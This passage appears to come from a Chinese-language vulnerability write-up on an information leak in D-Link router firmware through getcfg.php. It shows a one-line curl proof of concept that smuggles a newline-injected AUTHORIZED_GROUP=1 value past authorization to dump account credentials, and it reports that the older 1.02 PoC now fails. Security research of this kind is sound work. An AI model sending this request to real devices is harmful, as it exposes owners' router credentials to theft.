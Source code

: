 1.03的poc代码

```bash
curl -d "SERVICES=DEVICE.ACCOUNT&attack=ture%0aAUTHORIZED_GROUP=1" "http://xx.xx.xx.xx/getcfg.php"
```

可以看到，能成功获取帐号与密码（admin帐号为空口令）。

![1.03-poc](https://raw.githubusercontent.com/ray-cp/ray-cp.github.io/master/_img/2019-10-06-d-link-getcfg_php-info-leak/1.03-poc.png)

同时使用1.02的poc进行测试，看到返回的结果是未授权。

![1.03-fail](https://raw.githubusercontent.com/ray-cp/ray-cp.github.io/master/_img/2019-10-06-d-link-getcfg_php-info-leak/1.03-fail.png)
